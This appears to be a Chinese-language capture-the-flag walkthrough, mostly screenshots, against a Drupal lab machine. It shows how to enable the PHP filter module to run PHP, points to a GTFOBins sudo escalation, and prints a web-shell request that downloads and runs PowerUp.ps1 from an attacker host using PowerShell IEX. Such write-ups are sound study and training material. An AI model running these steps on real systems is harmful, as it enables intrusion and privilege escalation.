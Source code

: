 ![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTQhg8Rkk1oqn4EaIYTCOJVyib2UvcibWvTFdZXb0qTZYptEhyKO9FSWPQ/640?wx_fmt=png)

可以通过在 “模块” 页面上启用 PHP 筛选器模块来实现 PHP 执行。之后，只需浏览至添加内容，然后至文章。将 PHP 粘贴到文章正文中，将 “文本” 格式更改为 PHP 代码，然后单击 “预览” 可以轻松执行代码。---- 官方翻译...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJT9Xq1ry6VuDibLG8QdJlqSMhD6aMw1eOvEfHkqjw5f6sQ16QIggq6fnA/640?wx_fmt=png)

在 Modules 找到了 PHP 模块，默认是没勾上的，勾上 save 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTEwviap6sVT6suduicWhDicY3KabaJ9zbST7TCZmTL647jsfhiaf2Hew4pQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJT1umt8e8Vnx71UQwSuwjGqBRpnibYwW4Kr8vB4nEIec5WamsgSKpZnZw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTibHxHEkw0hESnXicxibnibpUhicQejYbPNHP49Zp2hMia48zAibLliabWdsj2Q/640?wx_fmt=png)

PHP 代码提权：

```
[链接](https://gtfobins.github.io/gtfobins/php/#sudo)
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJT8A0o1QOw7XtAe7F5jzU5ibVNDiaxlRXOic3G0Hne47oicjXjTvILa4Lb7A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTfZNsQJzLmFciaic9TkbvNeQDNd0GQKd4rRWiaA8koomjeGO0veJOicyMHQ/640?wx_fmt=png)

然后预览即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTLgoawqrwgSWbavTMVBamh8EbbxkAVEJLvN1tx9o9evNjjeeBMBiaia2g/640?wx_fmt=png)

仅仅通过这种方式就拥有了管理员... 使用起来更简单，但这也是官方给的一种方法...

  

  

使用 Powershell Empire-PowerUp.ps1

  

  

PowerShell Empire 是用于运行 Microsoft Windows 和 / 或 Windows Server 操作系统的计算机和服务器的开发后框架...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTQKibKzMUicKqYKSRrPSicamGPAABJdTUn6wsdMBiaiakOTaRt1J2gic47gKQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTp3I11bYDftJXCxKic8VgGWnb6xBZicUVHNvECqbbOa8KJiaGorAtTRDrw/640?wx_fmt=png)

注意：PowerUp.ps1 可以在 windows 内部运行，因此我们需要在文件 “Invoke-AllChecks” 的底部添加并保存...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJT2XXfKNUicV7EANLtA8aQVLYeVx7Ul7yQfWbia67LgXBVo5veiaYNosG9g/640?wx_fmt=png)

```
http://10.10.10.9/dayuxiyou.php?dayu=echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.16:8000/PowerUp.ps1') | powershell -noprofile -
```

然后利用 PowerShell 上传执行 PowerUp.ps1...

过了几分钟，查看结果，可以看到访问被拒绝，说明没有管理员权限...
